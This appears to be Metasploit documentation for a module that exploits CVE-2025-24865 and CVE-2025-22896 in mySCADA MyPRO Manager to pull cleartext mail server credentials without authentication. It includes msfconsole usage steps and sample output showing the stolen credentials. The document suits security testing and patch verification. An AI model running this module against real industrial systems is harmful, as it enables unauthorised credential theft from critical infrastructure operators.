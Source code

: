 ## Vulnerable Application

**Vulnerability Description**

This module exploits two vulnerabilities (CVE-2025-24865 & CVE-2025-22896) in mySCADA MyPRO Manager <= v1.3 to retrieve the configured
credentials for the mail server.

The administrative web interface has certain features where credentials are required to be accessed, but the implementation is flawed,
allowing to bypass the requirement. Other important administrative features do not require credentials at all, allowing an unauthenticated
remote attacker to perform privileged actions. These issues are tracked through CVE-2025-24865.
Another vulnerability, tracked through CVE-2025-22896, is related to the cleartext storage of various credentials by the application.

One way how these issues can be exploited is to allow an unauthenticated remote attacker to retrieve the cleartext credentials of the mail
server that is configured by the product, which this module does.

Versions <= 1.3 are affected. CISA published [ICSA-25-044-16](https://www.cisa.gov/news-events/ics-advisories/icsa-25-044-16) to cover
the security issues.

**Vulnerable Application Installation**

A trial version of the software can be obtained from [the vendor](https://www.myscada.org/mypro/).

**Successfully tested on**

- mySCADA MyPRO Manager 1.3 on Windows 11 (22H2)

## Verification Steps

1. Install the application
2. After installation, reboot the system and wait some time until a runtime (e.g., 9.2.1) has been fetched and installed.
3. Start `msfconsole` and run the following commands:

```
msf6 > use auxiliary/admin/scada/mypro_mgr_creds 
msf6 auxiliary(admin/scada/mypro_mgr_creds) > set RHOSTS <IP>
msf6 auxiliary(admin/scada/mypro_mgr_creds) > run 
```

## Scenarios

Running the module against MyPRO Manager v1.3 on Windows 11, should result in an output similar to the
following:

```
msf6 auxiliary(admin/scada/mypro_mgr_creds) > run
[*] Running module against 192.168.1.78

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Mail server credentials retrieved:
[+] Host: smtp.example.com
[+] Port: 993
[+] Auth Type: login
[+] User: user
[+] Password: SuperS3cr3t!
[*] Auxiliary module execution completed
msf6 auxiliary(admin/scada/mypro_mgr_creds) > creds
Credentials
===========

host          origin        service           public  private       realm  private_type  JtR Format  cracked_password
----          ------        -------           ------  -------       -----  ------------  ----------  ----------------
192.168.1.78  192.168.1.78  34022/tcp (http)  user    SuperS3cr3t!         Password
```
